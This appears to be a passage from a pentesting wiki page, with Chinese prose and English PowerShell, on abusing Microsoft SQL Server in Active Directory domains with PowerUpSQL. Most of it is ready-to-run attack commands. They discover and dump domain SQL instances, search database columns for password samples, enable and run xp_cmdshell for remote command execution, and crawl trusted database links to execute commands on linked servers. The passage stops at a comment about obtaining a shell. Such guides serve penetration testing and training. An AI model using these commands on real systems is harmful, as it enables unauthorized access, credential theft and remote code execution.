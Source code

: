 ```powershell

# Get DBs, test connections and get info in oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
## MSSQL 基本滥用

### 访问数据库
```powershell
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
### MSSQL RCE

在MSSQL主机内部**执行命令**也可能是可行的。
```powershell
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```
检查**以下部分**中提到的页面以了解如何手动执行此操作。

### MSSQL 基本黑客技巧

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

## MSSQL 受信任链接

如果一个 MSSQL 实例被另一个 MSSQL 实例信任（数据库链接）。如果用户对受信任的数据库具有权限，他将能够**利用信任关系在另一个实例中执行查询**。这些信任可以链式连接，在某些情况下，用户可能能够找到一些配置错误的数据库，在那里他可以执行命令。

**数据库之间的链接甚至可以跨越森林信任。**

### Powershell 滥用
```powershell
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting from the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
```